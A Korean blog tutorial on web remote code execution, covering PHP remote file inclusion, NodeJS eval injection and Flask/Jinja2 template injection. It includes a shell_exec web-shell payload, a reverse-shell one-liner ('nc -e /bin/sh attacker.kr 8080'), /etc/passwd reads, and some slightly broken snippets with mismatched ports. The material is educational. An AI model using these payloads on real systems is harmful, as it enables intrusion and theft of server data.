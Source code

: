 ```yaml
---
emoji: 📣
title: Web Application RCE Case
author: Zer0Luck
date: '2021-12-25 05:00:00'
categories: Web
tags: RCE tutorial
---
```


# QuickStart
## Web Application RCE Case

### PHP
- File Inclusion, File upload, ...

### NodeJS
- Code Injection, Unserialize, ...

### Flask
- Server Side Template Injection, ...

## RCE Case1 #PHP

### File Inclusion
- php `include` 키워드는 `text/code/markup` 형식의 파일을 읽어와 php 파일의 내용을 다른 PHP 파일에 삽입할 수 있다.
```php
<?php
    include $_GET[file];
?>
```
- 예시로 공격 대상 서버에 `include`가 가능한 경우 RCE가 가능한 페이로드를 업로드하여 호출함으로 써 공격이 가능해진다.
**request**
```php
# > https://victim.kr/index.php?file=https://attacker.kr/payload.txt&cmd=id
```

**payload.txt**
```php
<?php
    echo shell_exec($_GET[cmd]);
?>
```

**response**
```php
uid=20080 gid=1001 groups=1001
```
- 공격자의 `payload` 데이터를 include 하였기 때문에 원하는 방향으로 수행할 수 있는 구조가 생긴다.
### File Inclusion technique

#### 맛있는 `include` 할 대상 파일
- `/etc/passwd` : 리눅스 계정 목록 [Local File]
- `/proc/self/maps` : 프로그램 메모리 덩보 [Local File]
- `/var/www/html/[payload.*]` : 코드를 실행할 수 있는 php 코드 [Local File]
- `https://attacker.kr/payload.txt` : 코드를 실행할 수 있는 php 코드 [Remote File]

#### 시도 해 볼 만한 함수
- `echo "data";` : 문자 출력
- `phpinfo();` : php 정보 출력
- `system("id")` : system 명령어 수행
- `passthru("id")` : passthru 명령어 수행
- `file_put_contents("/tmp/test.txt", "data")` : 파일 쓰기(생성)
- `file_get_contents("/tmp/test.txt")` : 파일 읽기


## RCE Case2 #NodeJS

### NodeJS Code Injection
**request**
```javascript
//> http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
```

**attacker server**
```javascript
# nc -lvp 8888
```
- 대상 서버상 내부적으로 처리하는 구간에서 `경로`,`쿼리`등의 데이터가 내부 javascript로 해석되어 실행되는 구간이 존재하는 경우 위와 같은 공격을 이용하여 RCE이 수행이 가능

**victim.kr 내부 구현**
```javascript
...
eval(data_input); // data_input은 위의 request에서 전달받은 데이터
...
```
- 대상 서버 내부 구현은 다음과 같이 입력 된 데이터가 `eval` api를 통한 문자열이 javascript로 해석되어 실행되는 구간으로 동작하기 때문

#### NodeJS Code Injection technique

#### **fs class**
- 공격시 대상 서버의 파일을 읽는 경우 `require('fs')` 모듈을 활용하여 파일 시스템(파일 읽기, 쓰기, 삭제)을 제어할 수 있으며 다양한 방식으로 활용된다.

**readdir()**
- fs class의 `readdir()`, `readdirSync()` 메서드를 통해 대상 서버의 디렉터리 내용을 나열할 수 있다. 후자가 동기식 버전 말고는 동일하다. 
``` javascript
var fs = require('fs');
fs.readdir('.').toString('utf8');
fs.readdir('..').toString('utf8');
```

**readFile()**
- 공격자는 앞서 서버 디렉토리 구조를 파악한 후 `readFile()`, `readFileSync()` 메서드를 활용하여 파일의 내용을 읽을 수 있다.
``` javascript
var fs = require('fs');
fs.readFile('/etc/passwd').toString('utf8');
```

**Child Process**
- 공격자는 `child_process` 모듈을 사용해 Node.js 에서 작식 프로세스를 생성하여 자식 프로세스로 `spawn(), fork(), exec(), execFile()` 등의 메서드를 실행할 수 있다. 
- `spawn()` 함수는 Stream 데이터를 반환하고 `exec()` 함수는 전체 버퍼 출력을 반환한다. 

#### **Ncat**
- 공격자는 앞서 페이로드를 구성한후 자신의 서버로 대상 서버를 연결하기 위해 Revers Shell을 설정하기 위해 Ncat를 활용한다.
- 
``` javascript
// > http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
// < nc -lvp 8888
```

## RCE Case3 #Flask/Jinja2

### Flask Server Side Template Injection
- Server Side Template Injection을 서버에서 임의 코드를 실행 할 수 있는 사용자 입력 값에 Template keyword를 삽입해서 Tempalte Engine에서 해당 입력 값을 기반으로 데이터를 렌더링되어 실행된다.

**victim.kr 내부 서버 구현**
```python
def index():
    return render_template_string(
        '<h1>{{ request.args.get("input") }}</h1>'
    )
```

**request**
``` python
# http://victim.kr/?input={{4*4}}
```

**response**
``` python
# > <h1>16</h1>
```
- 대상 내부 서버에서는 input 쿼리 값으로 request get 요청을 통해 입력 받아 `render_template_string` 메서드를 활용해 rednering되어 출력된다. `{{4*4}}`을 입력하여 SSTI 수행 시 템플릿 엔지이 해당 식을 해석하여 `16`을 반환한다.

```toc
```